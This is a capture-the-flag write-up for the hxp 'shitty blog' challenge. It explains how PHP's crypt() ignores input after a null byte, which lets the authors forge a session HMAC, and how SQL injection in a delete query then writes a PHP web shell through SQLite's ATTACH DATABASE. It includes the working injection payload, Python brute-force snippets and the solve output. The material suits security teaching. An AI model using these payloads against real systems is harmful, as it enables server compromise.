 shitty blog 🤎
=====

Points: 250 (31 solves)

Writeup by: ath0 and qxxxb


Challenge Author: 0xbb

Files: `shitty blog 🤎-a6c0b8b672817005.tar.xz`


Overview
=====

The main logic of the challenges resides in one file, `index.php`.

There is a per-session SQLite database that gets created at
`'/var/www/html/data/' . md5($salt.'|'.$id.'|'.$mac);`. In the session cookie,
there is a user id (`$id`) and a HMAC which will be verified:

```php
    $session = explode('|', $_COOKIE['session']);
    if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
        exit();
    }
    $id = $session[0];
    $mac = $session[1];
```

If we can forge a valid HMAC, we can move forward with a totally controlled `$id` (more on the forgery later).

qxxxb noticed some interesting bits in the nginx config:

``` nginx
location / {
        try_files $uri $uri/ =404;
}
```

We can visit `http://localhost:8888/data/<sandbox_url>/blog.sqlite3` and we'll be
able to read our sqlite database back. But this doesn't help us achive our
ultimate goal: We need to execute `/readflag` (neither nginx nor php have the
ability to read `flag.txt` directly), so we need RCE. The other thing to note
is nginx is setup to send any file ending in `.php` through the php interpreter:

```nginx
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So if we can write a `.php` file somewhere in `/var/www/html/`, we can just
visit that URL and it will get executed! But how can we create such a file?


Luckily, there's another vulnerability which is likely the first thing you'll notice when scanning `index.php`:

```php
function delete_entry($db, $entry_id, $user_id) {
    $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");
}
```

SQL injection on `$user_id`! So if we can cram a SQL injection payload into
`$user_id`, we can use any of the capabilities of SQLite.


Exploit
=====

SQL injection to RCE
----

Assuming we can control the user id (requires HMAC forgery, below), how will we
get code execution?

Some [cheat sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet) I found online shows you can create SQLite databases with arbitrary names:

```
1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('hax'); --
```

And nginx is setup to send any file ending in .php through the php interpreter:

```nginx
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So our SQL injection payload just needs to create a file at `/var/www/html/data/lol-abcdefg.php` containing `<?php system('/readflag;') ?>` anywhere within the file.

So the SQL injection payload we need (with quotes correctly encoded) is:

```
'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES ('<?php system(''/readflag'') ?>'); --
```

(the `--` at the end starts a comment)

Forging a HMAC
=====

Here is the relevant code from the `index.php`:

```php
# Generating an HMAC
$mac = substr(crypt(hash_hmac('md5', $id, $secret, true), $salt), 20);

# Verifying an HMAC
if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
    exit();
}
```

The fourth `true` argument to `hash_hmac()` is for the parameter `binary`:
> When set to true, outputs raw binary data. false outputs lowercase hexits.

However, the documentation for `crypt()` shows:
> **Warning**: This function is not (yet) binary safe!

It turns out that `crypt()` considers its inputs as null-terminated strings. As
shown
[here](https://www.reddit.com/r/PHP/comments/t0qzl/is_this_a_bug_shouldnt_crypt_be_binary_safe/),
everything after the null byte is ignored:
```php
>>> assert(
    crypt(b"\x00stuff", '$6$89bc41658a01fb6b$') ==
    crypt(b"\x00ignored", '$6$89bc41658a01fb6b$')
)
=> true
```

The first step is to find a `$mac` where
`hash_hmac('md5', $id, $secret, true)` starts with a null byte.

The probability of this happening for a random `$id` is `1 / 256`. If it
happens twice, we'll get two identical `$mac` values. Here's code to retrieve the null MAC:

```python
def get_null_mac():
    mac_counter = set()
    for i in tqdm(itertools.count()):
        res = requests.get(URL_BASE)
        id, mac = urllib.parse.unquote(res.cookies["session"]).split("|")
        if mac in mac_counter:
            return mac
        mac_counter.add(mac)

    raise ValueError("Unreachable")
```

Now that we have the null MAC, we can append junk at the end of our SQLi
payload inside a comment and until its MAC matches our null MAC (`1 / 256`
chance):

```python
def attempt_sqli(junk: str, null_mac: str):
    payload = (
        "'test'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES ('<?php system(''/readflag'') ?>'); -- "
        + junk
    )
    # ...
```

Full solve script in `solve.py`.

```
$ python3 solve.py
[*] Looking for null MAC ...
207it [01:15,  2.73it/s]
[+] null_mac = yC8z7vD9vdpSERKREHFfJ/PpyNg9yAXh00wZHnh8AlIehpWVmVxzrjphnbjrpiCr6Umu9D2l.CUSzAIlqQjLR/
[*] Attempting SQLi ...
post_id = 1
hxp{dynamically_typed_statically_typed_php_c_I_hate_you_all_equally__at_least_its_not_node_lol_:(}

37it [00:15,  2.44it/s]
```

